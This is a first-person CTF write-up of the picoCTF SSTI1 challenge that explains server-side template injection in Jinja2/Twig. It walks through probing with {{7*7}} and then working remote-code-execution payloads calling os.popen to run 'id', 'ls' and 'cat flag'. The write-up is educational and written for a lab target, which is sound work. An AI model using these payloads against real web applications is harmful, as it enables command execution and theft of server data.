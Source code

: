 In this article, I will go through my thought process and the steps I took to complete my first PicoCTF challenge, which is the Web Exploitation SSTI1 challenge. SSTI stands for Server-side Template Injection, which is a type of vulnerability where an attacker injects malicious template expressions into input fields that gets processed by the server’s template engine. [This vulnerability causes risks such as information disclosure, remote code execution (RCE) and could grant access to sensitive server-side data such as user data, configuration files and session tokens stored in server memory.](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection?) Hence why it is crucial to put measures in place to prevent such attacks.
![Problem Description](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/description.png)
Once the challenge starts, By clicking **Check out my website here!**, we arrive at this page:
![Home](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/home.png)

It’s implied that this website is vulnerable to SSTI, or server side template injection. Websites use template engines to create dynamic content, and SSTI vulnerabilities arise when user-supplied input is supplied to these template engines. Malicious actors may exploit this to inject code into the site.
![Diagram](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/engine.png)
To see if we can execute code, we can simply try some operation and put it in brackets to see if it will execute. I tried executing `{7*7}` and it didn’t work, so I added extra brackets and it worked!
![{{7*7}}](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/7x7.png)
![result](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/49.png)
Note that `7*7` was evaluated! Then for `{{7*'7'}}`:
![777777](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/7777777.png)
Similarly, the input was evaluated. Therefore, this site is in fact vulnerable, and is using either `Jinja2` or `Twig`. Both options are Python libraries, hence our payload will consist of Python.
If we try something like `{{request}}`, we can access the request object itself:
![resuest method](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/request_result.png)
I used a payload found on this blogpost: [onsecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/). I tried the a payload that allows RCE bypassing and it worked:
```
{{request.application.__globals__.__builtins__.__import__(‘os’).popen(‘id’).read()}}
```
![ssti1_ID.png](images/ssti1_ID.png)
Now we can go back and tweak some of the data to see what else we can find. I tried replacing “id” (this is a Linux system command that prints out user and group information for the current user) to “ls” like on a Linux terminal to see the files and directories in the current working directory:
```
{{request.application.__globals__.__builtins__.__import__(‘os’).popen(‘ls’).read()}}
```
![SSTI1_ls.png](images/SSTI1_ls.png)
We can see that there is a “flag” file, which most likely contains the flag for this challenge, so I want to see the content of that file. To do so, I use the Linux command cat and then the name of the file (flag) in the payload:
`{{request.application.__globals__.__builtins__.__import__(‘os’).popen(‘cat flag’).read()}}`
![flag.png](images/flag.png)

#### Challenge completed!

